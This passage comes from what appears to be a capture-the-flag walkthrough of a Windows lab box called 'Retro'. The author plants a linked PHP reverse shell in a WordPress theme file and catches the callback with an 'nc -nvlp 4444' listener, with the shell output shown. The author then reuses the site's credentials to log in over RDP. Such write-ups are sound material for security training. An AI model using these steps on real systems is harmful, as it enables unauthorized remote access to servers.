 <br>

I used [**this reverse shell**](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell_older.php). This one is nice because it can be used for Linux, Windows, or MacOS.

Then I edit the **90s Retro: Main Index Template (index.php)** file found on the right hand menu and insert the reverse shell code at the top.

I start up a listener on my system, and then click the blue **Update File** button back on the WordPress site. As soon as I do I get a shell back!

```
┌──(kali㉿kali)-[~/work/shells]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.2.100] 49780
SOCKET: Shell has connected!
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\retro>
```

At this point I tried quite a few things to escalate privileges and was ultimately unsuccessful. Back to the drawing board.

<br>

## RDP

Let's go investigate the RDP port we saw open on the nmap scan.

I fire up `remmina` and try to connect which works. I use the same username and password from the WordPress site and that also works getting me to his desktop:

<br>

![](images/retro10.png)
